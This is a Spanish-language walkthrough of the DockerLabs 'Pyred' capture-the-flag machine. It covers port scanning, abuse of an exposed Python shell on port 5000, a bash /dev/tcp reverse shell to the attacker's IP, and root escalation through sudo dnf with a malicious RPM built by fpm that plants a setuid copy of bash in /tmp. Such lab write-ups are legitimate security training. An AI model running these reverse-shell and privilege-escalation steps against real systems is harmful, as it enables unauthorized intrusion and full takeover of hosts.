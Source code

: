 ```yaml
---
layout: post
author: Quino
title: Pyred , DOCKERLABS
tags:
---
```

Este es un reto clasificado como de dificultad medium en la plataforma dockerlabs.es .
Nos encontramos con las siguientes características y dificultades , en el tendremos que localizar la entrada al sistema , envio de revshell y escalada de privelegios. 

## HERRAMIENTAS Y RECURSOS USADOS

- nmap
- Python
- Sudo 
- fpm
- https://blog.ikuamike.io/posts/2021/package_managers_privesc/#method-1-creating-a-malicious-rpm-package

## Empezamos

Como al arrancar la maquina ya nos dice la ip nos olvidamos de arp-scan , como comprobar la conexion con un ping.

```bash
ping -c1 172.17.0.2
```


Ahora realizamos un nmap como de costumbre sin preocuparnos del ruido pues estamos en entorno de pruebas.

```bash
sudo nmap -p- -sSVC -n -Pn -A -vvv 172.17.0.2
```

![800x600](assets/pyred/nmap.png)

Observamos el resultado y vemos que solo tiene el puerto 5000 abierto , por lo tanto la entrada esta en esa web asi que vamos a revisarla.

![800x600](assets/pyred/web_term_Python.png)

El codigo fuente no muestra nada pero por lo que parece es un shell interactivo de python , asi que probamos a ejecutar comandos.

```python
print("loco")
```

## Infiltración
Como hemos comprobado si que ejecuta, así que intentamos mandarnos una revshell.
Para ello antes de ejecutar la rev nos colocamos a la escucha en la maquina atacante.

```bash
sudo nc -lvnp 443
```

y en la victima ejecutamos:

```python
import os

os.system("bash -c bash -i >& /dev/tcp/192.168.0.112/443 0>&1")
```

![800x600](assets/pyred/nc.png)

Ya tenemos la revshell y podemos trabajar directamente en el objetivo y pasamos a escalar privilegios.

## Escalada de privilegios

Como siempre empezaremos por lo mas basico buscando ficheros con permisos erroneos scripts con suid.

```bash
find / -perm -4000 2>/dev/null
sudo -l
```
![800x600](assets/pyred/find.png)

![800x600](assets/pyred/sudo.png)

El comando find no devuelve nada aprovechable de momento , pero sudo nos da la idea de como atacar puesto que el usuario primpi puede ejecutar dnf que es un gestor de paquetes de fedora.

Podemos usar gtfobins para averiguar como explotar esa vulnerabilidad.

Yo tengo instalado searchbins y ejecuto , donde  -b es el binario al que tenemos acceso y -f indica la funcion que utilizaremos para acceder al binario

```bash
./searchbins.sh -b dnf -f sudo
```

El searchbins me devuelve lo siguiente:

It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.

Descargamos e instalamos la herramienta para crear el rpm.

```bash
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Debemos crear un  rpm malicioso en nuestra maquina atacante , lo cual lo podemos hacer con los comandos anteriores y una vez lo tengamos subirlo a la maquina victima e instalarlo.
Usaremos los siguientes comandos.

En maquina atacante :

```bash
python3 -m http.server
```


Y el la victima :

```bash
curl -O http://ipatacante/rpmcreado
sudo dnf install -y rpmcreado.rpm
```

Yo personalmente no acabo de entender que es lo que hacen exactamente esos comandos así que busque otra forma de hacerlo que fuera mas entendible para mi , así que hice lo siguiente.

```bash
mkdir exploit_rpm
```

Creo un script en el directorio creado anteriormente con el siguiente contenido.

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
```

Una vez creado el script hago uso de la herramienta fpm que hemos instalado anteriormente , yo al ser usuario de arch no tengo instalado rpmbuild asi que me lance un VM de kali para realizar esa tarea y ejecute :

```bash
fpm -n exploit -s dir -t rpm --before-install ./exploit/exploit.sh ./exploit

Created package {:path=>"exploit-1.0-1.x86_64.rpm"}
```

Ahora que ya lo tenemos creado solo tendremos que enviarlo a la maquina objetivo y instalarlo y ejecutarlo como explique antes el ultimo comando que utilizo para ser root es :

```bash
/tmp/bash -p
```

Como observamos ya estamos como superuser.

![800x600](assets/pyred/id.png)

Hasta aqui llegamos , un saliudo y gracias por leer.
